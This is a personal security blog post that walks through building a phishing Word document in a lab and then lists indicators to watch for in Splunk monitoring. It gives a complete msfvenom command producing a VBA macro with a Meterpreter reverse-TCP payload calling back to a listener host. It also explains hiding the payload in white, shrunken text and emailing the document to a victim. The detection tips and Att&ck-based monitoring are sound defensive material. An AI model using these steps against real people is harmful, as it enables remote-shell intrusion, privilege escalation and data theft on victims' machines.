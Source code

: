# PhishMe

Phish Me.........
Apologies for the lack of posts, I've been a little busy lately with getting a room sorted for my recently announced little one, along with my GPEN and my OSCP and just life in general, things have been a little manic to say the least.

Anyway I wanted to post something along the lines of Phishing and how it may look in my Splunk app, Mitre Att&ck Monitoring. Then whilst I was working on it I realised I cant really show everything I would want as I don't have that setup within my lab, So I guess will demo how to create a malicious document, email it to a victim to run and then talk a little about what to look out for.

The below is just a high level view of the above mentioned process with what tools I have available to me.

So I created a macro and payload using MsfVenom with the following command - msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.140.17 LPORT=4545 -e x86/shikata_ga_nai -f vba-exe


This then goes off and creates some vba code and a payload both need to be inserted into your malicious word document, it looks a little like below.


These then need to be added into the Word doc as you can see below. Just go ahead and copy and paste the code into the blank vba screen.
Create a nice looking document that suits the needs of your victim. Notice below the grey shaded area, that's the payload code that for this demo I have shrunk down the text size and changed the colour to white just so its not immediately seen, this could be hidden in an image or the footer that's really up to you how you want to go about hiding it.
So now were ready to send the email. It appears in the victims inbox as expected.
The user then opens the file and the payload runs. The user maybe prompted to enable editing. I found that that wasn't always the case when playing around with this. From then on in we can see in Splunk the word doc and what looks to be a strange looking executable ran at the time of execution.


This can then be confirmed from your newly gained Meterpreter session. Below we see the creation and the connection made.


As the attacker you can then go off and do what it is you need to do, escalate privileges, steal data etc etc.

So I also wanted to talk about what you can lookout for in your monitoring tools, things like -

obscure file names
office applications spawning processors
office applications attempting to connect to unknown URL's
discovery commands being ran by strange user accounts, maybe at strange times of the day, for example whoami ipconfig net accounts.
.HTA files within emails
If there are links in the email, hover over them to check the URL
if possible configure IDS / IPS & APT
Educate users via phishing simulations

The Splunk app I'm working on looks for all types of things based off the Mitre Att&ck framework but 1 or 2 events alone doesn't automatically mean malicious activity is occurring, with my app I want to get your attention by highlighting a whole bunch of events, then you will need to manually go off and build that bigger picture of an incident if there is one of course.

Below there are a few screenshots, I've mentioned it in some of my previous posts so you may have seen it before. I could probably release it as is now although its far from complete and currently does not cover the entire MA framework, let me know what you think.


For anyone wanting to have a play around with Phishing I came across the Morning Catch VM a while back and although it's a little dated now it still does the job.

Find out more about it here - https://blog.cobaltstrike.com/2014/08/06/introducing-morning-catch-a-phishing-paradise/

Obviously the information above should not be used to be internationally malicious and if that is your choice I cannot be held responsible for any of your actions, this post is for educational purpose only.

Find me on Twitter @CyberZombi3

Cheers

#Hacking #Hacker #RedTeam #Blueteam #ITSecurity #Noob #Splunk #Monitoring #MitreAttack #Phishing
